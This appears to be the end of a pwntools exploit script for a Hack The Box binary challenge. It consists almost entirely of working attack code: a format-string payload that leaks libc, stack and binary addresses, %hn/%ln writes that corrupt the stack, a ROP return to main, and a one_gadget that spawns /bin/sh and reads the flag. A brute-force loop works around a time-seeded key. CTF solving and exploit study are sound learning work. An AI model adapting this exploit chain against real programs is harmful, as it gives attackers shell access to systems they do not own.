 ```py
    exploit(url,password)    

j = 0 
with log.progress('Guessing....',level=logging.CRITICAL) as l:
    while True:
        try:
            idx=0
            j+=1
            l.status(f'0x{j:02x}/0x{2**8:02x}')

            conn()
            init_key()

            url = b''
            for i in [3,9,10]:  # libc/rbp/binary
                url+= (f'%{i}$p'.encode()+ b'HTB')
            
            fmt_payload(url)
            wfm()
            x = r.clean()
            if b'0x' in x:
                libc.address    = int(x.split(b'HTB')[0],base=16)-0x114887
                stack_leak      = int(x.split(b'HTB')[1],base=16)           # rbp
                target_mem      = stack_leak-0x70                           # rbp-0x70
                e.address       = int(x.split(b'HTB')[2],base=16)-0x1200    # main

                l.status(f'''leaks acquired''')

                fmt_payload(f'%{target_mem&0xffff}c%20$hn'.encode())    # rbp->rbp-0x70
                fmt_payload(b'%47$ln')                                  # [rbp-0x70]=NULL
            
                l.status(f'''stack altered''')

                rop_payload(libc.address+0x145fda)  # pop rbp ; ret2main
                init_key()                          # reset the key since main will call init_key again

                l.status(f'''$rbp ready''')

                rop_payload(libc.address+0xebd43)   # one_gadget

                l.status(f'''one_gadget engaged''')
                
                r.clean()
                r.sendline(b'cat flag.txt; exit')
                flag = r.recvline().decode().strip()
                if 'HTB' in flag:
                    l.success(flag)
                    break
        except AssertionError:
            # means that this srand(time(NULL)) will not work with our payload . sleep for a second
            time.sleep(1)
        except Exception as _:
            # print(traceback.print_exc())
            pass

        r.close()
        continue

# Gadgets
# 0x145fda: pop rbp ; pop r14 ; pop r15 ; pop rbp ; ret ; (1 found)
# 0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
```